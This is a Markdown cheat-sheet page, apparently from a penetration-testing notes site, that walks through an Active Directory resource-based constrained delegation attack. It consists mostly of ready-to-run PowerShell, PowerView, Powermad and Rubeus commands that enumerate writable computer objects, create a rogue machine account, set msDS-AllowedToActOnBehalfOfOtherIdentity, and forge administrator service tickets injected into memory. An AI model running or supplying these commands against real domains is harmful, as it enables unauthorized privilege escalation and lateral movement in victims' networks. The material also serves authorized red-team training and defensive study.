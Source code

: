 ```yaml
---
layout: page
title: "# AD Resource-Based Constrained Delegation"
permalink: /ad_cheatsheets/ad_resource_based_contrained_delegation
---
```


# AD Resource-Based Constrained Delegation

## General Info

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e02d789f-068a-4da5-a64d-7775a5170567/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e02d789f-068a-4da5-a64d-7775a5170567/Untitled.png)

## Find GenericWrite ComputerAccounts

This specific vector starts by compromising a domain account that has the GenericWrite access right on a computer account object (when a computerobject use PSExec to get into computer context).

```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Get ms-DS-MachineAccountQuota data

Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

Once a SID is added, we will act in the context of that computer account and we can execute the S4U2Self and S4U2Proxy extensions to obtain a TGS for appsrv01. To do this, we either have to obtain the password hash of a computer account or simply create a new computer account object with a selected password.

By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically. This value is present in the ms-DS-MachineAccountQuota property in the Active Directory domain object.

We can enumerate ms-DS-MachineAccountQuota with the **PowerView** Get-DomainObject method:

```powershell
Get-DomainObject -Identity %DOMAIN-NAME% -Properties ms-DS-MachineAccountQuota
```

## Create a new computer account with PowerMad.ps1 and get SID

First you need to have PowerMad.ps1:

[https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

Now let's import and run it to create a new computeraccount:

```powershell
. .\powermad.ps1

New-MachineAccount -MachineAccount %NEW-CREATED-MACHINENAME% -Password $(ConvertTo-SecureString 'TestComputer123' -AsPlainText -Force)
```

The msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack. To do this, we must first create a new security descriptor with the correct SID. We can use the RawSecurityDescriptor class to instantiate a SecurityDescriptor object:

```powershell
#Define the SID of newly created computer
$sid =Get-DomainComputer -Identity %NEW-CREATED-MACHINENAME% -Properties objectsid | Select -Expand objectsid

#Create SecurityDescriptor object
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

#convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property:
$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

#OR the above  (incl. the first below) with PowerView:
Set-ADComputer %TARGET-COMPUTER% -PrincipalsAllowedToDelegateToAccount %NEW-CREATED-MACHINENAME% -Server 172.16.75.165 -Verbose
```

## Update the msDS-AllowedToActOnBehalfOfOtherIdentity to the SID of new machine

After the SecurityDescriptor has been converted to a byte array, we can use Get-DomainComputer to obtain a handle to the computer object for appsrv01 and then pipe that into Set-DomainObject, which can update properties by specifying them with -Set options:

```powershell
Get-DomainComputer -Identity %TARGET-COMPUTER% | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

## Verify the security descriptor

```powershell
#Reading the binary version of "msdsallowedtoactonbehalfofotheridentity" with Get-DomainComputer 
$RBCDbytes = Get-DomainComputer %TARGET-COMPUTER% -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

#Instantiating a SecurityDescriptor object with RawSecurityDescriptor
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

#Get SID:
$Descriptor.DiscretionaryAcl

#Convert SID:
ConvertFrom-SID S-1-5-21-2032401531-514583578-4118054891-6101
```

## Get the RC4 hash of the password used during creation of the computer account

```powershell
.\Rubeus.exe hash /password:%PASSWORD%
```

```powershell
#Call asktgt requesting a administrator ticket for service CIFS/appsrv01.prod.corp1.com and inject it into the memory:
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

#Request multiple tickets for multiple services:
.\Rubeus.exe s4u /user:SuperMachine$ /rc4:A62289A48B2BD23C940D9E24AB05AD37 /impersonateuser:administrator /msdsspn:cifs/jump09.ops.comply.com /altservice:host,wsman,rpcss /ptt
```

*Note, we can also use the above attack vector with GenericAll, WriteProperty, or WriteDACL access rights to appsrv01.
